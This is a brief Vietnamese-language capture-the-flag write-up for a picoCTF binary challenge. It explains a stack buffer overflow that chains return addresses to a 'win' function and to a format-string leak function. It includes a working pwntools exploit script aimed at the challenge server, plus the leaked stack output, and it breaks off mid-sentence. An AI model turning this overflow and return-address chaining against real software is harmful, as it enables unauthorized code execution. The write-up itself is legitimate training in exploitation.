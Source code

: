 # Ý tưởng
ta thấy hàm UnderConstruction() có dùng FMT để leak, và hàm win để cat flag
ở đây ta sẽ nhảy vào hàm win trước và sau đó nhảy vào under để leak dữ liệu trong stack
```python3
from pwn import *
r = remote('saturn.picoctf.net', 51893)
elf = ELF("./vuln")
payload = b"a"*14 + p32(elf.symbols['win']) + p32(elf.symbols['UnderConstruction'])
r.sendlineafter("Give me a string that gets you the flag\n", payload)
r.interactive()
```
chạy netcat ta nhận được
```
aaaaaaaaaaaaaa\xa0\x9d\x04 \x9e\x04
User information : 0x80c9a04 0x804007d 0x39623938 0x30356438 0x5f597230 0x6d334d5f
Names of user: 0x50755f4e 0x34656c43 0x7b465443
Age of user: 0x6f636970
```
do ở đây ta dùng tool để swap